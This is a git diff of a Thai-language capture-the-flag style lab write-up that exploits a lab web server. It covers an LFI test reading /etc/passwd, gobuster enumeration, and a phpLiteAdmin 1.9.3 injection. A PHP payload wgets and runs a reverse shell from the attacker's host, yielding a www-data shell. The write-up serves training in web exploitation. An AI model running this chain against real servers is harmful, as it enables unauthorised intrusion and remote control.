

s

diff --git a/ccmt/lab14/writeup.md b/ccmt/lab14/writeup.md
@@ -45,7 +45,7 @@ http://10.101.85.29/
 
 ![](./images/01.png)
 
-หลังจากอ่าน page source พบว่ามีการใช้ view.php?page= ซึ่งมีโอกาสสูงที่โค้ด view.php จะใช้คำสั่งประเภท include() หรือ require() เพื่อดึงไฟล์ tools.html มาแสดงบนหน้าเว็บ และอาจเป็นช่องโหว่ LFI หากโค้ดไม่รัดกุม
+หลังจากอ่าน page source พบว่ามีการเรียกใช้ path /view.php?page=tools.html ซึ่งมีโอกาสสูงที่โค้ด view.php จะใช้คำสั่งประเภท include() หรือ require() เพื่อดึงไฟล์ tools.html มาแสดงบนหน้าเว็บ และอาจเป็นช่องโหว่ LFI หากโค้ดไม่รัดกุม
 
 ```
 [...snip...]
@@ -59,10 +59,162 @@ http://10.101.85.29/
 
 ### Burp Suit
 
-เปิด burp suit เพื่อดักจับ request ของลิ้งนี้แล้วส่งไปที่ repeater
+เปิด burp suit เพื่อดักจับ request ของลิ้งนี้
 
 ```
 http://10.101.85.29/view.php?page=tools.html
 ```
 
+ส่งไปที่ repeater
+
 ![](./images/02.png)
+
+
+แก้ request เป็น ../../../../../etc/passwd แล้วกด send เพื่อทดสอบ LFI
+
+```
+GET /view.php?page=../../../../../etc/passwd HTTP/1.1
+```
+
+สำเร็จ มีช่องโหว่ LFI อยู่จริงๆ
+
+![](./images/03.png)
+
+---
+
+### Gobuster
+
+```
+gobuster dir -u http://10.101.85.29 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip
+```
+
+เจอ dir ที่น่าสนใจ นั่นคือ dbadmin 
+
+```
+┌──(kali㉿kali)-[~/Desktop/ccmtlab/14]
+└─$ gobuster dir -u http://10.101.85.29 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip
+===============================================================
+Gobuster v3.8.2
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
+===============================================================
+[+] Url:                     http://10.101.85.29
+[+] Method:                  GET
+[+] Threads:                 10
+[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+[+] Negative Status codes:   404
+[+] User Agent:              gobuster/3.8.2
+[+] Extensions:              php,html,txt,zip
+[+] Timeout:                 10s
+===============================================================
+Starting gobuster in directory enumeration mode
+===============================================================
+index                (Status: 200) [Size: 7970]
+index.html           (Status: 200) [Size: 7970]
+img                  (Status: 301) [Size: 310] [--> http://10.101.85.29/img/]
+tools                (Status: 200) [Size: 8355]
+tools.html           (Status: 200) [Size: 8355]
+view                 (Status: 200) [Size: 0]
+view.php             (Status: 200) [Size: 0]
+css                  (Status: 301) [Size: 310] [--> http://10.101.85.29/css/]
+js                   (Status: 301) [Size: 309] [--> http://10.101.85.29/js/]
+vendor               (Status: 301) [Size: 313] [--> http://10.101.85.29/vendor/]
+package              (Status: 200) [Size: 789]
+LICENSE              (Status: 200) [Size: 1094]
+less                 (Status: 301) [Size: 311] [--> http://10.101.85.29/less/]
+server-status        (Status: 403) [Size: 293]
+dbadmin              (Status: 301) [Size: 314] [--> http://10.101.85.29/dbadmin/]
+Progress: 1102790 / 1102790 (100.00%)
+===============================================================
+Finished
+===============================================================
+```
+
+เข้าไปดู
+
+```
+http://10.101.85.29/dbadmin/
+```
+
+เจอไฟล์ test_db.php ถูกเก็บไว้
+
+![](./images/04.png)
+
+เปิดเข้าไปเป็นหน้าเว็บจัดการข้อมูลของ phpLiteAdmin v1.9.3
+
+![](./images/05.png)
+
+หาข้อมูลเกี่ยวกับช่องโหว่ของ phpLiteAdmin v1.9.3 ด้วย exploit db แล้วเจอ exploit นี้เขียนว่าเราสามารถทำ reverse shell ได้ จึงลองทำตามดู
+
+```
+https://www.exploit-db.com/exploits/24044
+```
+
+ไปที่ kali เตรียมโค้ด rshell
+
+```
+cp /usr/share/webshells/php/php-reverse-shell.php .
+```
+
+ตั้ง parameter ให้ตรงกับเครื่องของเรา
+
+```
+nano php-reverse-shell.php
+# $ip = '10.101.55.195';  // CHANGE THIS
+# $port = 1234;       // CHANGE THIS
+```
+
+Set up a netcat listener on port 4444:
+
+```
+nc -lvp 1234
+```
+
+Started a Python HTTP server on my machine to host the file.
+
+```
+python -m http.server 8000
+```
+
+ไปที่เว็บ Create New Database as hack.php.
+
+![](./images/06.png)
+
+Create new table.
+
+![](./images/07.png)
+
+เตรียมโค้ด
+
+```
+<?php system("wget http://10.101.55.195:8000/php-reverse-shell.php -O /tmp/reverse-shell.php; php /tmp/reverse-shell.php"); ?>
+```
+
+save เป็น text และกด create
+
+![](./images/08.png)
+
+เรียกใช้เพื่อให้โค้ดทำงาน
+
+```
+http://10.101.85.29/view.php?page=../../../../usr/databases/hack.php
+```
+
+กลับไปที่ listener จะเห็นว่าเราได้ shell มาแล้ว
+
+```
+┌──(kali㉿kali)-[~/Desktop/ccmtlab/14]
+└─$ nc -lvp 1234
+listening on [any] 1234 ...
+ls
+ls
+ls
+ls
[phone redacted]: inverse host lookup failed: Unknown host
+connect to [10.101.55.195] from (UNKNOWN) [10.101.85.29] 47688
+Linux zico 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
+ 02:34:45 up 1 day, 19:15,  0 users,  load average: 0.16, 0.06, 0.06
+USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+/bin/sh: 0: can't access tty; job control turned off
+$
+```